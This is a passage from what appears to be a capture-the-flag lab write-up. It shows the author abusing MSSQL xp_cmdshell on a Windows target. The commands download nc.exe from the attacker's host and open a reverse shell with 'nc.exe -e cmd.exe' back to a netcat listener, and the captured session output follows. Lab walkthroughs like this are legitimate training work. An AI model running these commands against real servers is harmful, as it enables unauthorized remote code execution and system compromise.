 Start netcat listen:
```shell
└─$ sudo nc -lvnp 443
[sudo] password for darthv: 
Listening on 0.0.0.0 443
```

On windows server side:
Try execute pwd command with powershell -c:
```shell
SQL> xp_cmdshell "powershell -c pwd"
output                                                                             

--------------------------------------------------------------------------------   

NULL                                                                               

Path                                                                               

----                                                                               

C:\Windows\system32                                                                

NULL                                                                               

NULL                                                                               

NULL                                                                               

SQL> 
```

Change direcotry and try powershell wget alias to get nc.exe
```shell
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.234/nc.exe -outfile nc.exe"
output                                                                             

--------------------------------------------------------------------------------   

NULL                                                                               

SQL> 
```

Now bind cmd.exe to our nc listener:
```shell
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.234 443"
```

YESSSS our local nc session, get the uer flag:
```shell
└─$ sudo nc -lvnp 443
[sudo] password for darthv: 
Listening on 0.0.0.0 443
Connection received on 10.129.55.134 49676
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\sql_svc\Downloads>whoami
whoami
archetype\sql_svc

C:\Users\sql_svc\Downloads>dir
dir
 Volume in drive C has no label.
```